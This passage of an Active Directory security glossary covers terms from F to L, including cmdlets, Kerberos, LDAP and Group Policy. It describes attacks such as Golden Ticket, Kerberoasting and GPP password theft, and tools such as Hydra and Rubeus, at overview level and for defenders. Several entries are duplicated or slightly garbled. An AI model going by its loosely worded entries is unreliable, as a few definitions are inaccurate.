\runinhead{Functional Levels} Active Directory (AD) functional levels determine the features and capabilities available within a domain or forest. They essentially set the compatibility mode and define which AD features are accessible. There are two types of functional levels: Domain Functional Level and Forest Functional Level. 

\section*{G}
\runinhead{\texttt{Get-ADAccountResultantPasswordReplicationPolicy}} This PowerShell command retrieves the resultant password replication policy for an AD account. An attacker can potentially use this information to understand which passwords are being replicated and where, aiding in attack planning.

\runinhead{\texttt{Get-ADDomainController}} This PowerShell cmdlet retrieves a domain controller object or performs a search to retrieve multiple domain controller objects from AD. Inappropriately used, it can provide an attacker with valuable information about the domain controller in an AD environment.

\runinhead{\texttt{Get-ADFineGrainedPasswordPolicy}} This PowerShell cmdlet retrieves fine-grained password policies from the AD. If these policies are incorrectly configured or leaked, it could help an attacker plan a password cracking attack.

\runinhead{\texttt{Get-ADGroup}} This PowerShell cmdlet retrieves a group object or performs a search to retrieve multiple group objects from AD. Misuse or inappropriate exposure can provide an attacker with valuable information about group structure and membership in an AD environment.

\runinhead{\texttt{Get-ADGroupMember}} This PowerShell command retrieves the members of an AD group. An attacker could use this to identify high-privilege accounts to target.

\runinhead{\texttt{Get-ADObject}} This PowerShell command retrieves an AD object or performs a search to retrieve multiple objects. It is commonly used in reconnaissance by an attacker to understand objects within AD.

\runinhead{\texttt{Get-ADReplicationAttributeMetadata}} This PowerShell cmdlet retrieves the attribute replication metadata for AD objects, which can be used to troubleshoot replication issues; however, in the hands of an attacker, it could potentially reveal sensitive information.

\runinhead{\texttt{Get-ADRootDSE}} This PowerShell command retrieves the root of the Directory Information Tree (DIT) of an AD domain. This can be used by attackers to gather information about the domain structure.

\runinhead{\texttt{Get-ADTrust}} This PowerShell cmdlet retrieves a trust object or performs a search to retrieve multiple trust objects from AD. Inappropriately used, it can provide an attacker with valuable information about trust relationships in an AD environment.

\runinhead{\texttt{Get-ADUser}} This PowerShell cmdlet retrieves a user object or performs a search to retrieve multiple user objects from AD. Inappropriately used or exposed, it can provide an attacker with valuable information about user accounts in an AD environment and identify potential targets for attacks within the AD.

\runinhead{Global Address List (GAL)} The GAL is an accessible directory of all users, groups, shared contacts, and resources recorded in the Active Directory Domain Services (AD DS) of an organization. Inappropriate access or manipulation of the GAL can lead to unauthorized access to information or phishing attacks.

\runinhead{Global Catalog (GC)} The Global Catalog is a distributed data repository that contains a partial searchable representation of every object in every domain in a multidomain Active Directory Domain Services (AD DS) forest.  GC is used to speed up searches and logins, especially in large environments. If a GC server becomes unavailable or compromised, it can cause problems with log-ins and searches.

\runinhead{Global Groups} Global groups can have members from their own domain, but can be granted permissions in any domain in the forest. If used incorrectly, these groups can lead to unwanted privilege escalation.

\runinhead{Globally Unique Identifier (GUID)} A unique reference number used in programming, created by the system to uniquely identify an AD object. A GUID in Active Directory is a 128-bit number that is used to uniquely identify objects. Every object created in an Active Directory gets a GUID which remains the same for the life of the object, even if the object is moved or renamed. Manipulation of GUIDs can potentially lead to attacks like object impersonation. 

\runinhead{Golden gMSA Attack} A Golden gMSA attack is a cyberattack in which attackers dump the root keys of the Key Distribution Service (KDS) and generate passwords for all associated gMSAs offline. This two-step process begins with the attacker retrieving several attributes from the KDS root key in the domain. Then, using the Golden gMSA tool, the attacker generates the password of any gMSA that is associated with the key (without having a privileged account).

\runinhead{Golden Ticket Attack} A Golden Ticket attack enables an attacker to forge a Kerberos ticket, giving them unauthorized access to any system in the domain as a highly privileged user, such as a domain administrator. Such elevated privileges can give the attacker almost unlimited access to Active Directory and the resources that depend on it. 

\runinhead{\texttt{GPUpdate}} This command-line tool on Windows operating systems forces an immediate refresh of Group Policy on the local machine. This tool can be useful for immediately applying policy changes, rather than waiting for the automatic refresh cycle.

\runinhead{Granular Audit Policies} Granular audit policies can be configured in AD for more detailed information gathering. Misconfigurations can lead to gaps in monitoring and logging, potentially enabling attackers to avoid detection.

\runinhead{Group Identifier (GID)} This unique value identifies a specific group in an AD environment. In a UNIX context, the GID is often used to map UNIX groups to their Windows counterparts. This capability can be manipulated for access control bypass attacks in mixed-OS environments.

\runinhead{Group Managed Service Account (gMSA)} A Group Managed Service Account (gMSA) is a managed domain account that helps secure services on multiple servers. Introduced in Windows Server 2012, gMSA is a special type of service account in Active Directory and features automatic password rotation every 30 days. It also provides simplified service principal name (SPN) management and the ability to delegate management to other administrators. If compromised, GMSAs can be used to escalate privileges or move laterally across a network.
\textit{See also: Golden gMSA attack}

\runinhead{Group Managed Service Account (gMSA) Passwords} Passwords for Group Managed Service Accounts (gMSAs) are managed by AD. These accounts, if compromised, can allow an attacker to move laterally across a network or escalate privileges.

\runinhead{Group Membership} In Active Directory, users are grouped together to simplify the process of granting permissions or delegating control. Incorrect group memberships can give a user more access rights than necessary, following the principle of least privilege can reduce the risk.

\runinhead{Group Nesting} Group nesting refers to the practice of adding groups as members of other groups. Although nesting can simplify permission management, it can also create complex and hard-to-track permissions structures, potentially leading to excessive permissions and security issues.

\runinhead{Group Policy Management Console (GPMC)} This Microsoft Management Console (MMC) Plugin provides a single administrative interface to manage Group Policy across the enterprise in an Active Directory environment. GPMC simplifies the management of Group Policy by making it easier to understand, deploy, and manage policy implementations.

\runinhead{Group Policy Modeling} This planning and troubleshooting tool for group policies can simulate the potential impact of GPOs, but misuse or misunderstanding of its results can lead to misconfigurations.

\runinhead{Group Policy Object (GPO)} Group policies enable IT administrators to implement specific configurations for users and computers. Group Policy settings are contained in Group Policy Objects (GPOs), which are linked to Active Directory Domain Services (AD DS) containers. A GPO is a component of a Group Policy, used to represent policy settings applied to users or computers. GPOs can become a target for attackers who want to alter security settings at the system level.
\textit{See also: Group Policy Object (GPO) Abuse}

\runinhead{Group Policy Object (GPO) Abuse} Attackers with permission to modify GPOs can take advantage of this ability to execute malicious code, modify system settings, or disrupt system operations on systems where the GPO applies.

\runinhead{Group Policy Preferences (GPP)} Part of the group policy, GPP enables a more advanced configuration of systems. GPP is notable for a security issue: It used to store passwords in a reversible encrypted format, a vulnerability that has been exploited in the past.

\runinhead{Group Policy Preferences (GPP) Password Attack} Before a Microsoft update removed the Group Policy Preferences (GPP) feature, GPP allowed administrators to store passwords in Group Policy Objects (GPO). The encrypted passwords could easily be decrypted, and older GPOs could still contain these deprecated password entries, making them a target for attackers.

\runinhead{Group Policy Results} A report of Group Policy settings within the scope of an object (user or computer). This report can be valuable for troubleshooting, but can also expose potential weaknesses or misconfigurations in GPOs to attackers.

\runinhead{Group Policy Security} Group Policy is an integral feature built into Microsoft Active Directory. Its core purpose is to enable IT administrators to centrally manage users and computers in an AD domain. This includes both business users and privileged users such as IT administrators, and workstations, servers, domain controllers (DCs), and other machines. Group policy security is an important part of AD security.

\runinhead{Group Scopes (Global, Universal, Domain Local)} Group scopes define the reach of AD groups in terms of their ability to include other groups or users as their members, and the extent to which these groups can be granted permissions. Misconfiguration of group scopes can lead to unauthorized access to resources.

\runinhead{Golden Ticket} A Golden Ticket attack is a compromise of the Kerberos Key Distribution Center (KDC) password (also known as the krbtgt password) to generate counterfeit service tickets, allowing attackers to impersonate any user and gain full domain access.

\runinhead{Group Policy Object (GPO)} GPO, or Group Policy Object, is a feature of Microsoft Windows that is used to centrally manage and configure operating systems, applications, and user settings within an Active Directory environment. It allows administrators to enforce specific security settings for users and computers, enhancing network security and efficiency.

\section*{H}
\runinhead{Hardening} Hardening an AD environment involves securing the environment against attacks by reducing the surface of vulnerability. This might include measures such as implementing least-privilege access, monitoring suspicious activity, regularly updating and patching systems, etc.

\runinhead{Hashing} In the context of Active Directory, hashing refers to the way passwords are stored. AD uses a hashing algorithm to store passwords in a nonreversible hashed format, enhancing security; however, attackers can still use techniques like pass-the-hash attacks to exploit these hashed credentials.

\runinhead{Hidden Recipient} A hidden recipient in Active Directory is a user that does not appear on the address lists. If hidden recipients are not properly managed, an attacker could use them to exfiltrate data without raising alarms.

\runinhead{Hierarchy} AD structure is built as a hierarchy, starting from forests to domains, organizational units, and individual objects. An understanding of this hierarchy is crucial for both managing AD and securing it against potential attacks.

\runinhead{Home Directory} In AD, the home directory is a specific network location that is automatically connected each time a user logs in. If not properly secured, these directories can be exploited by attackers to gain unauthorized access to sensitive data.

\runinhead{Honeypot Account} In cybersecurity, a honeypot account is a decoy AD account used to attract and detect malicious activities. If the honeypot account is accessed or altered, it could be an indication of a security breach.

\runinhead{Host} A host is a computer connected to a network.

\runinhead{Host (A) Record} In Active Directory, a host record (A) maps a domain name to an IP address in DNS. If these records are not properly secured, attackers could manipulate them, causing traffic to be redirected to malicious sites.

\runinhead{Host Header} In the context of Active Directory Federation Services (AD FS), a host header is used to route incoming HTTP/HTTPS requests that are sent to a specific AD FS federation server on a farm.

\runinhead{Host-Based Intrusion Detection System (HIDS)} A HIDS is a system that monitors a computer system, rather than a network, for malicious activities or policy violations. Implementing a HIDS on critical AD servers can help detect and prevent potential attacks.

\runinhead{Hotfix} A hotfix is a single, cumulative package that includes information (often in the form of files) that is used to address a problem in a software product like Active Directory. From a cybersecurity perspective, the regular application of hotfixes is essential to protect against known vulnerabilities.

\runinhead{Hybrid Active Directory} A Hybrid Active Directory environment integrates on-premises AD with cloud-based solutions like Azure AD (now Entra ID). This setup enables users to have a single identity for both systems. From a cybersecurity perspective, managing access and identities across on-premises and cloud environments can be complex and requires a comprehensive security approach.

\runinhead{Hybrid Cloud Deployment} In a hybrid cloud deployment, Active Directory might serve to authenticate and authorize users and computers in a network that combines the on-premises infrastructure and cloud services. Security measures must be taken into account in both environments.

\runinhead{Hybrid Identity Protection (HIP)} Many organizations today use both in-premises Active Directory and in-the-cloud Azure AD. This hybrid identity environment enables a common user and system identity for the authentication and authorization of resources regardless of location; however, it also presents unique cybersecurity challenges.

\runinhead{Hydra} A popular brute-force tool, Hydra supports numerous protocols, including SMB and HTTP, which are often used in AD environments. Hydra can be used to guess or crack passwords, allowing unauthorized access to user accounts.

\runinhead{Hypertext Transfer Protocol Secure (HTTP)} HTTPS is often used in AD Federation Services (ADFS) to protect communications. It is important to keep certificates up to date and use strong encryption protocols to maintain security.

\runinhead{Hash / Hashing} A hash is the output of a hash function, which is a mathematical operation that converts data of any size into a fixed-size string of characters, also known as a hash value or hash code. This process is called hashing. Hashing is a one-way function, which means that it is computationally infeasible to reverse the process and recover the original data from the hash.

\section*{I}
\runinhead{Identity and Access Management (IAM)} IAM is a framework of policies and technologies that the right people in an enterprise have the appropriate access to technology resources. IAM systems can be used to initiate, capture, record, and manage user identities and their related access permissions.

\runinhead{Identity Attack} From phishing emails to cyberattacks targeting Active Directory, threat actors love to target identity resources. If a cyber-attacker can gain the identity credentials of a user (for example, through a phishing email), they do not need to enter your environment; they can simply log in. Once inside your environment, the attacker can attempt to take over additional identities, working their way up (through privilege escalation) to admin-level access. At that point, the attacker can make changes to Active Directory to take over, lock or shut down user and system accounts, resources, and data.

\runinhead{Identity Management (IdM)} IdM is a broad administrative area that involves identifying individuals in a system (such as a country, a network, or an enterprise) and controlling their access to resources within that system by associating user rights and restrictions with the established identity.

\runinhead{Identity Provider (IdP)} IdP is a system that creates, maintains and manages identity information for principals and provides principal authentication to other service providers within a federation, such as with AD Federation Services (ADFS).

\runinhead{Identity Threat Detection and Response (ITDR)} Identity systems are under sustained attack. The misuse of credentials is now a primary method that cyber-attackers use to access systems and achieve their goals.

\runinhead{ImmutableID} This attribute in AD links an on-premises user to an Office 365 user. ImmutableID is often used during AD migrations or consolidations.

\runinhead{Impacket} Impacket is a collection of Python classes developed for working with network protocols, often used for creating network tools. Provides a robust and comprehensive framework for crafting and decoding network packets, allowing developers to construct and analyze network traffic. Although Impacket is an important tool for legitimate network administrators and cybersecurity professionals, malicious actors can also exploit it for network attacks, such as NTLM relay attacks on Active Directory.
\textit{See also: NTLM Relay Attack}

\runinhead{Impersonation} Impersonation refers to the ability of a thread to execute in a security context that is different from the context of the process that owns the thread. In a cybersecurity context, impersonation is a common attack method that could lead to unauthorized access or escalation of privileges.

\runinhead{Implicit Identity} Special identities that represent different users at different times, depending on the circumstances. For example: Anonymous Logon, Batch, Authenticated User and more.

\runinhead{Indexed Sequential Access Method (ISAM)} A method of indexing data for fast retrieval used by the Extensible Storage Engine (ESE) used in Active Directory.

\runinhead{Indicators of Attack (IOAs)} Indicators of attack (IOAs) in cybersecurity are security indicators that demonstrate the intent of a cyberattack. Detecting IOAs early in an attack can help defenders prevent further damage.
\textit{See also: Security Indicators; Indicators of Compromise (IOC); Indicators of Exposure (IOE)}

\runinhead{Indicators of Compromise (IOCs)} Indicators of compromise (IOCs) in cybersecurity are security indicators that demonstrate that the security of the network has been breached. Investigators typically spot IOCs after being informed of a suspicious incident, discovering unusual callouts from the network, or during a security assessment.
\textit{See also: Security Indicators; Indicators of Attack (IOA); Indicators of exposure (IOE)}

\runinhead{Indicators of Exposure (IOE)} Indicators of exposure (IOEs) are security indicators that provide information on potential exploitable vulnerabilities before a cybersecurity incident occurs. By understanding these risks, security teams can better prioritize security management efforts and be prepared to contain attacks quickly.
\textit{See also: Security Indicators; Indicators of Attack (IOA); Indicators of compromise (IOC)}

\runinhead{Information Rights Management (IRM)} IRM is a form of IT security technology used to protect information from unauthorized access. In the context of Active Directory, IRM can help protect sensitive data by controlling who has access to it and what they can do with it, such as preventing data from being printed or forwarded.

\runinhead{Information Security Policy} A set of policies issued by an organization to ensure that all IT users within the organization’s domain abide by its rules and guidelines related to information security. Policies are designed to protect organizational data and manage the risk of compromising the confidentiality, integrity and availability of information.

\runinhead{Infrastructure Master} One of the five FSMO roles in AD, the Infrastructure Master is responsible for updating references from objects in its domain to objects in other domains. If all domain controllers are also Global Catalog servers, the infrastructure master role performs no tasks.
\textit{See also: Flexible Single Master Operations (FSMO) Roles}

\runinhead{Inheritance} Inheritance refers to the cascading of permissions from parent objects to child objects within the Active Directory tree. In AD, permissions granted at a higher level in the hierarchy can be inherited by lower-level objects, unless inheritance is explicitly blocked. Inheritance simplifies permission management, but incorrect configurations could expose resources to unauthorized users. 

\runinhead{Insecure AD Replication} Unauthorized domain controllers or domain controller compromise can lead to replication of directory services data to a malicious actor, enabling them to gather sensitive information and credentials.

\runinhead{Install From Media (IFM)} This feature enables administrators to install a domain controller using restored backup files. Using the Install from Media (IFM) option, you can minimize the replication of directory data over the network. This helps you to install additional domain controllers in remote sites more efficiently, especially when the WAN links to these sites are relatively slow and/or the existing AD database size is considerably large.

\runinhead{\texttt{Install-ADDSDomainController}} This PowerShell command installs a new domain controller in AD.

\runinhead{\texttt{Install-ADDSForest}} This PowerShell command installs a new AD DS forest. This is a highly privileged command that, if misused, can lead to the creation of a malicious forest, potentially compromising the entire AD environment.

\runinhead{Integrated DNS} Refers to a DNS that is integrated with an Active Directory domain. An AD-integrated DNS server stores its data in Active Directory. This allows DNS information to be replicated to all other domain controllers in the domain, improving the fault tolerance of your DNS.

\runinhead{Inter-Forest Trust} A trust established between two Active Directory forests. An interforest trust can be a one-way or two-way trust that provides for controlled access to resources in each forest. Managing and monitoring interforest trusts to mitigate the risk of unauthorized access is crucial.

\runinhead{Inter-Site Topology Generator (ISTG)} In Active Directory, the ISTG role is held by one domain controller in each site and is responsible for creating a spanning tree of all site links in the site and constructing a least-cost routing topology for replication between domain controllers within the site.

\runinhead{Interactive Logon} This type of login occurs when a user enters their credentials directly into the system, typically through the system console. In Active Directory, interactive log-ins are logged as a specific event (Event ID 528 on Windows Server 2003 and older, and Event ID 4624 on Windows Server 2008 and newer).

\runinhead{Internet} The Internet is a global network of computers and servers that communicate with each other using standardized protocols, primarily TCP/IP (Transmission Control Protocol/Internet Protocol). The Internet provides various services including the World Wide Web, email, file transfer, and cloud services. In terms of cybersecurity, the Internet is often the main vector for a wide range of threats targeting Active Directory environments, including phishing attacks, malware distribution, and remote exploitation of vulnerabilities. Thus, securing Internet connections and monitoring Internet-facing services are crucial tasks in network security.

\runinhead{Internet Authentication Server (IAS)} IAS is the Microsoft implementation of a Remote Authentication Dial-In User Service (RADIUS) server and proxy in Windows Server 2000 and 2003. IAS performs centralized connection authentication, authorization, and accounting for many types of network access, including wireless and VPN connections. From a cybersecurity perspective, securing the IAS is crucial, as attackers who compromise it could manipulate authentication processes, gain unauthorized network access, or snoop on network traffic. Since Windows Server 2008, IAS has been replaced by Network Policy Server (NPS).

\runinhead{Internet Information Services (IIS)} IIS is a web server software created by Microsoft for use with the Windows NT family. IIS supports HTTP, HTTPS, FTP, FTPS, SMTP, and NNTP. In the context of AD, IIS is often used for hosting necessary web-based services such as ADFS.

\runinhead{Internet Protocol Security (IPSec)} IPsec is a suite of protocols that secures IP communications by authenticating and encrypting each IP packet in a data stream. In terms of Active Directory, IPsec policies can be used to provide security for traffic between AD domain controllers and member servers or clients, thereby adding an extra layer of security.

\runinhead{Intranet} An intranet is a private network within an organization. Intranets are often used to share information and computing resources between employees. Security-wise, uncontrolled or unauthorized access to the intranet can lead to information leakage or other forms of internal attacks.

\runinhead{Intrusion Detection System (IDS)} A device or software application that monitors a network or systems for malicious activity or policy violations. An IDS plays a crucial role in a robust security architecture.

\runinhead{Inventory (hardware/software)} A hardware or software inventory typically refers to the process of collecting detailed information about all the hardware or software used in an organization. An accurate inventory is essential for managing resources, planning for future needs, and maintaining security.

\runinhead{IP Addressing} An IP address is a numerical label assigned to each device that participates in a computer network that uses the Internet Protocol for communication. In an Active Directory environment, proper IP addressing is crucial for network communication and resource access.

\runinhead{IP Security Policy} This series of rules dictates which form of IPsec should be used in a transaction between the server and the client. The misconfiguration of the rules could leave security vulnerabilities in your AD environment.

\runinhead{Isolated Network Segment} A section of a network isolated from the rest of the network. Using isolated network segments can limit the potential damage if a security incident occurs in a different segment.

\runinhead{IT Infrastructure Library (ITIL)} This set of detailed practices for IT service management (ITSM) focuses on aligning IT services with the business needs.

\runinhead{Infrastructure Master} The Infrastructure Master is one of the five Flexible Single Master Operations (FSMO) roles, specifically responsible for maintaining accurate cross-domain object references. This role is crucial in multi-domain environments where objects such as users and groups reside in different domains but need to interact with each side in different domains but need to interact with each other. The Infrastructure Master updates these references when objects are moved, renamed, or when group memberships change across domains.

\section*{J}
\runinhead{Jet Database Engine (Joint Engine Technology)} The Active Directory database is based on the Microsoft Jet Blue engine and uses the Extensible Storage Engine (ESE) to store, edit, delete, and read data. The Active Directory database is a single file named ntds.dit. By default, this database is stored in the \texttt{\%SYSTEMROOT\%NTDS} folder on each domain controller and is replicated between them.

\runinhead{John the Ripper} A fast password cracker, used to detect weak passwords. Attackers use John the Ripper to crack hashed passwords, enabling unauthorized access.

\runinhead{Joining a Domain} An operation where a computer becomes part of an Active Directory domain. Joining a domain allows the system to use the central authentication provided by AD, access resources, and adhere to the policies set by the domain. Mistakes in this process can cause vulnerabilities and improper access controls.

\runinhead{Just Enough Administration (JEA)} This security technology enables delegated administration for anything managed by PowerShell. In an AD context, JEA can help limit privilege escalation attacks by reducing the number of people who have full administrative rights.
\textit{See also: Just-in-Time (JIT) Administration}

\runinhead{Just-in-Time (JIT) Administration} This method of assigning privileges to users is similar to Just Enough Administration (JEA). JIT gives users the privilege they need to perform a task, but only for a certain period of time. This can minimize the risk of privilege escalation or credential theft.
\textit{See also: Just-in-Time (JIT) Administration}

\section*{K}
\runinhead{Kerberoasting} Kerberoasting targets the weakness in the Kerberos authentication protocol used by Active Directory. Attackers request a service ticket for a targeted service account and then crack the encrypted service ticket offline to obtain the password of the account.
\textit{See also: Kerberos; Kerberos Delegation Abuse; Kerberos Password Guessing}

\runinhead{Kerberoasting with Rubeus} Rubeus is a powerful tool for interacting with the Microsoft Kerberos protocol. In Kerberoasting attacks, attackers use Rubeus to request service tickets and crack the tickets offline to gain service account credentials.

\runinhead{Kerberos} Kerberos is the primary authentication method used in Active Directory domains to authenticate users and computers. Older operating systems support DES encryption, while Windows Server 2008 and later support AES encryption. Kerberos is prone to several types of attacks, such as Golden Ticket and Silver Ticket attacks, that exploit the way Kerberos tickets are created and used within an AD environment.

The Kerberos computer network security protocol manages authentication and authorization in Active Directory. Massachusetts Institute of Technology (MIT), which created Kerberos, describes it as using strong cryptography to enable a client to prove its identity to a server on an unsecured network connection. After the client and server use Kerberos to prove their identities, they can also encrypt their communications to ensure privacy and data integrity. Two decades ago, the Kerberos protocol was a game changer in terms of security, unification, and moving AD toward identity management. But the evolution of attack methods and cloud migration has made Kerberos increasingly vulnerable to cyber threats.
\textit{See also: Kerberos Delegation Abuse; Kerberos Password Guessing; Kerberoasting}

\runinhead{Kerberos Constrained Delegation (KCD)} This security feature in Active Directory allows a service to impersonate a user to access a different service. The feature is designed to reduce the number of users with excessive privileges; however, misconfigurations can lead to the ability of attackers to elevate privileges or bypass authentication systems.
\textit{See also: Kerberos Delegation Abuse}

\runinhead{Kerberos Delegation Abuse} Attackers can manipulate constrained, constrained, and resource-based delegation to impersonate other users or elevate privileges within the domain. This abuse takes advantage of the complexities and implicit trust of the Kerberos protocol.
\textit{See also: Kerberoasting; Kerberos; Kerberos Constrained Delegation (KCD); Kerberos Password Guessing}

\runinhead{Kerberos Password Guessing (AS-REP Roasting)} In this attack, an adversary targets user accounts that do not require Kerberos pre-authentication. The attacker attempts to authenticate with the Key Distribution Center (KDC) and receives an encrypted ticket-granting ticket (TGT) that contains the user’s hashed password, which can then be cracked offline.
\textit{See also: Kerberos; Kerberos Delegation Abuse; Kerberoasting}

\runinhead{Kerberos Policy} Kerberos policy defines ticket properties for all domain users, such as ticket lifetime and renewal. This policy is part of Group Policy and, if not properly configured, can allow threat actors to replay old Kerberos tickets to gain unauthorized access.

\runinhead{Kerberos Service Principal Name (SPN)} SPN is used in Active Directory to associate a service instance with a service login account. SPNs can be a target for certain types of attack, such as Kerberoasting, where an attacker uses a valid Kerberos ticket to request service ticket data, which can then be forced offline to reveal the plaintext password of the service account.

\runinhead{Kerbrute} Kerbrute is a tool designed to perform Kerberos pre-auth brute-forcing. It can be used to validate whether usernames exist within an Active Directory environment without the risk of account lockouts.

\runinhead{Key Distribution Center (KDC)} In the Kerberos protocol, the KDC is responsible for authenticating users and providing ticket-granting tickets (TGTs), which are then used to obtain service tickets for various resources in the network. A compromised KDC could have severe implications, as it can lead to the compromise of any user or service in the domain.

\runinhead{\texttt{klist}} This command-line utility lists Kerberos tickets of the user who runs the command. The tool is useful for troubleshooting Kerberos authentication issues.

\runinhead{Knowledge Consistency Checker (KCC)} This Active Directory service generates the replication topology for the Active Directory replication system. If KCC fails or is compromised, it can lead to inconsistencies in the directory data.

\runinhead{Known Secure State} A known secure state represents the state of an environment that is confirmed to not contain any malware or ransomware. Returning to a known secure state after a cyberattack helps prevent loss of confidentiality, integrity, or availability of information.

\runinhead{\texttt{ksetup}} This command-line utility is used to configure a computer that is not joined to a domain to use domain resources. The tool is often used to configure a machine to use Kerberos for authentication in nontraditional scenarios.

\runinhead{Kerberoasting} An Active Directory cyberattack targeting the Kerberos authentication protocol ticketing system. Target service accounts with weak passwords by requesting and cracking their Kerberos tickets to gain unauthorized access.

\runinhead{Kerberos}  Kerberos is a network authentication protocol that uses cryptography to verify user identities and secure communications between clients and servers. It is designed to prevent passwords from being transmitted over the network in plaintext and provides a secure way for users to access resources on a network safely.

\runinhead{Key Distribution Center (KDC)}A Key Distribution Center (KDC) is a crucial component in secure network authentication systems like Kerberos. It acts as a trusted third party that manages and distributes cryptographic keys, enabling secure communications between users and services. The KDC is responsible for authenticating users, managing permissions, and issuing tickets or session keys, or tokens, to access specific resources.

\runinhead{\texttt{krbtgt}}  In Active Directory, \texttt{krbtgt} stands for \textit{"Kerberos Ticket-Granting Ticket."} It is a built-in user account that acts as a service account for the Kerberos Key Distribution Center (KDC). Its password is used to encrypt and sign all Kerberos tickets within the domain, making it a critical component for Kerberos authentication. Compromising the \texttt{krbtgt} account's password can lead to a Golden Ticket attack, allowing an attacker to essentially forge Kerberos tickets and gain unauthorized access.

\section*{L}
\runinhead{L0phtCrack} L0phtCrack is a password audit that helps automate the recovery of passwords from hashes, helping attackers to break into systems by cracking the user’s password.

\runinhead{LastKnownParent} This attribute identifies the last known location of a moved or deleted AD object. If not properly monitored, it can aid in object lifecycle tracking and potentially object restoration, posing a security risk.

\runinhead{LastLogonTimeStamp} This attribute specifies the last time the user has logged in. Irregularities in this attribute might indicate a potential unauthorized access or pass-the-hash attack.

\runinhead{Lateral Movement} Lateral movement occurs when a cyberattacker uses compromised accounts to gain access to additional clients and accounts throughout an organizations network. Cyberattackers use lateral movement in combination with privilege escalation to identify and gain access to sensitive accounts and resources that share stored sign-in credentials in accounts, groups, and machines. A typical goal of successful lateral movement is eventual administrative access to Active Directory domain controllers.
\textit{See also: Domain Dominance; Least Privilege; Privileged Access; Privilege Escalation}

\runinhead{Layered Defense} A layered defense is one that applies multiple layers of protection (e.g., endpoint security, SIEM, and Active Directory security) to help ensure that a cyberattacker who penetrates one layer of defense will be stopped by a subsequent layer.
\textit{See also: Defense in Depth}

\runinhead{LDAP Channel Binding} The process of linking the transport layer and the application layer, creating a cohesive unit. In terms of LDAP channel binding, the LDAP application layer is essentially intertwined with the TLS tunnel. This tight interconnection creates a distinct and unique identifier, or fingerprint, for the LDAP communication, thus any intercepted LDAP communications cannot be reused by attackers.

\runinhead{LDAP Connection Objects} Logical, one-way connections from one domain controller to another for replication purposes. If compromised, LDAP connection objects can be exploited to gain unauthorized control over replication.

\runinhead{LDAP Data Interchange Format (LDIF)} A standard plain text data interchange format. Represents directory content as records for update requests in Active Directory. Used by the LDIFDE command-line utility.
\textit{See also: LDAP Data Interchange Format Directory Exchange (LDIFDE)}

\runinhead{LDAP Data Interchange Format Directory Exchange (LDIFDE)} A Microsoft utility that can be used to import/export AD objects to/from LDIF files. Misuse can lead to unauthorized data export/import.

\runinhead{LDAP Directory Probe (\texttt{\texttt{ldp.exe}})} LDAP Directory Probe is a Windows Support Tool graphical utility that admins use to run LDAP operations against AD. The misuse of this tool can expose sensitive information or alter AD objects.

\runinhead{LDAP Injection Attack} In this type of attack, an attacker manipulates the input fields to insert and execute the light-weight Directory Access Protocol (LDAP) commands. The attacker uses these commands to query and manipulate data stored on an LDAP server, often used in conjunction with Active Directory.

\runinhead{LDAP over SSL (LDAPS)} An extension of LDAP that encrypts LDAP traffic. If not properly configured, LDAPS can make traffic susceptible to interception.

\runinhead{LDAP Policies} Policies that define the behavior of an LDAP server. The misconfiguration of these policies can lead to performance issues and potential security risks.

\runinhead{LDAP Referrals} When an LDAP server cannot answer a query, the server refers the client to another server. In a referral attack, a client can be referred to a malicious server.

\runinhead{LDAP Search Filters} LDAP search filters are used to find and manipulate AD objects. Improper use can lead to unauthorized access or alteration of directory objects.

\runinhead{LDAP Signing}  LDAP signing refers to the process in which LDAP traffic is digitally signed at its source. This digital signature serves to ensure that content within the LDAP traffic remains unchanged during transit, preserving its authenticity and integrity. Moreover, it provides a means for the receiver to confirm the original source of the LDAP traffic. The setup for LDAP signing can be achieved either through tailored group policies or by manipulating registry keys. Turning off LDAP signing may make the network susceptible to man-in-the-middle attacks.

\runinhead{\texttt{Ldapdomaindump}} This tool is used to dump domains using LDAP. The tool provides an attacker with easy access to all sorts of useful information about the domain.

\runinhead{LDAPMiner} LDAPMiner is a tool used for LDAP data extraction, primarily intended for penetration testing and other security audits. Attackers can use this tool to query and gather data from the AD environment, which assists in reconnaissance.

\runinhead{Least Privilege} Sometimes called minimum privilege, the information security principle of least privilege emphasizes that users and applications should be given privileged access only to the data and operations they require to perform their jobs. By taking this approach, IT and security teams can help prevent potential lateral movement in their organization’s networks.
\textit{See also: Domain Dominance; Lateral Movement; Privileged Access; Privilege Escalation}

\runinhead{Least-Privilege User Access (LUA)} A principle of limiting user rights to the minimum bare minimum permissions that they need to perform their work. Not following LUA can open avenues for privilege-escalation attacks.

\runinhead{LegacyExchangeDN} A unique identifier for each object within Active Directory (AD). Manipulation of this identifier could lead to unauthorized access, which is a major cybersecurity concern.

\runinhead{Lightweight Directory Access Protocol (LDAP)}
\textit{Pronounced}: \textbf{/ˈɛl.dæp/} or \textbf{“L-dap”}
LDAP is a protocol used to access and manage directory information services over a network. In Active Directory environments, LDAP enables applications and services to query and authenticate against the directory to retrieve information such as users, groups, and Organizational Units. LDAP provides a standardized and efficient way to interact with directory-based identity systems, supporting functions like authentication, authorization, and directory browsing. It is a foundational protocol for identity and access management in enterprise environments.

\runinhead{Lingering Objects} Lingering objects can occur if a domain controller does not replicate for an interval of time longer than the lifetime of the tombstone (TSL) and then reconnects to the replication topology. These are objects that remain in the directory database after being deleted on other domain controllers and cause inconsistencies and potential security issues if not handled properly.

\runinhead{Link Table} In Active Directory, a link table is a database table that keeps track of linked multi-valued attributes. These include attributes that create a relationship between two AD objects, such as member and memberOf attributes that link users to groups.

\runinhead{Link Identifier} An attribute in the AD schema that uniquely identifies an attribute of an object. If compromised, this attribute can lead to data inconsistencies and potential privilege escalation.

\runinhead{Link-Value Replication} An Active Directory mechanism that allows incremental updates to multivalued attributes. If compromised, this replication can lead to data inconsistency and potentially propagate false information within the directory.

\runinhead{Linked Attribute} Attributes in AD that have a corresponding attribute in another object, such as member and memberOf. An improper configuration can create orphaned links which might confuse the replication process, affecting the consistency of AD data.

\runinhead{Linked Value Replication (LVR)} A feature of Active Directory, introduced with Windows Server 2003, which enables individual updates to multi-valued attributes instead of replicating the entire set of values. For example, adding a new member to a large group only replicates the addition of the new user, not the entire group membership list. When a nonlinked multivalued attribute is updated, the entire attribute must be replicated. Requires Windows Server 2003 interim mode or Windows Server 2003 Forest Functional Level or higher. If manipulated, it can lead to replication errors or unauthorized changes.

